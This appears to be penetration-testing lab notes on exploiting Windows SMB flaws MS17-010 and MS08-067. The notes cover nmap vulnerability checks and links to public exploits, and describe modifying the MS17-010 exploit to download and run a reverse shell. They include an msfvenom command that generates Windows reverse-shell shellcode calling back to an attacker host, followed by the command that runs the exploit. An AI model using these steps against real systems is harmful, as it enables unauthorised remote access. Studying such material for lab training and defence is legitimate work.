 # Exploiting SMB service
- [https://www.hackingarticles.in/smb-penetration-testing-port-445/](https://www.hackingarticles.in/smb-penetration-testing-port-445/)  
  
## MS17-010 (SMB)
The remote machine is running the SMB service on port 139 and 445. This service vulnerable to MS17-010.  
We can check that by using the following nmap NSE script:  
```bash
nmap -p139,445 --script=smb-vuln-ms17-010 10.11.1.227  
```
  
We can get a public exploit code from this link:  
- [https://www.exploit-db.com/exploits/42315](https://www.exploit-db.com/exploits/42315)  
  
First, we need to download the following file:  
- [https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py)  
  
Then we will call it “mysmb.py” and store it in the same folder as the exploit  
 Before executing the exploit, we need to do some modifications:  
 First we will add more named\_pipe to the list called "find\_named\_pipe".  
This will improve our chances to exploit this vulnerability.  
A list of those named\_pipe can be found in Kali Linux:  
- /usr/share/metasploit-framework/data/wordlists/named\_pipes.txt  
  
![[Ms17-010_1.png]]
  
We also need to change the code in order to download a reverse shell and execute it through the SMB connection:  
  
![[Ms17-10_1.png]]
  

## MS08-67 (SMB):
As said before, the remote machine is running the SMB service on port 139 and 445.  
This service is also vulnerable to the MS08-067.  
  
We can check that by using the nmap NSE scripts:
```bash
nmap -p139,445 --script=smb-vuln-ms08-067.nse 10.11.1.227  
```

A public exploit code can be found at the following link:  
- https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py  
  
  
Before exploiting the vulnerability a modification needs to be done:  
 We will modify the original shellcode by a new one:
 ```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.47 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
	# -p: payload
	# LHOST/LPORT/EXITFUNC: parameters
	# -b: bad chars
	# -f: format
	# -a: architecture
	# --platform: The platform for payload

# We can now execute the exploit:
python ms08-067.py 10.11.1.227 2 139
	# 10.11.1.227: ip address
	# 2: OS type, in this case Windows 2000 universal
	# 139: port to use, can be also used on port 445
	# -f: format
 ```